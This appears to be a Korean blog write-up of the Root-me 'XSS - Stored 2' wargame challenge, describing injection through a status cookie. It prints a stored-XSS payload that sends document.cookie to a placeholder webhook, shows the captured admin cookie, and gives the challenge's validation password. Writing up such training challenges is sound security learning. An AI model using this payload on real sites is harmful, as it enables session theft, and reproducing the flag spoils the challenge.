 ```yaml
---
title : XSS - Stored 2
categories : [Wargame, Root-me]
tags : [XSS]
---
```


## XSS - Stored 2
```
Author
g0uZ,  4 March 2012

Statement
Steal the administrator session’s cookie and go in the admin section.
```
Stored1 과 동일하게 진행. 하지만 javascript를 htmlentities 함수를 이용한 것인지 실행시키지 못하도록 해놓았음.  
그래서 title, section 쿼리, cookie 등 다 시도해본 결과 쿠키 쪽에서 가능했음.  
message를 보내면 status를 표시해주는데 status 쿠키 값을 다음과 같이 변경.  
```
Status : <i class="invite">invite</i> 이고 자바스크립트를 실행시키려면 "으로 닫아 줘야 됨. 따라서 아래와 같이 변경해줘야 함.

"><script>location.href="webhook_url?cookie="%2B document.cookie</script>
```
한 5분 후에 확인해보면 이렇게 나옴.  
```
webhook_url?cookie=status%3Dinvite%3B%20ADMIN_COOKIE%3DSY2USDIH78TF3DFU78546TE7F

status=invite; ADMIN_COOKIE=SY2USDIH78TF3DFU78546TE7F
```
따라서 문제로 돌아가서 쿠키 값을 설정시켜주고 admin 섹션으로 가면 flag를 얻을 수 있음.  
```
You can validate challenge with this pass : E5HKEGyCXQVsYaehaqeJs0AfV
```

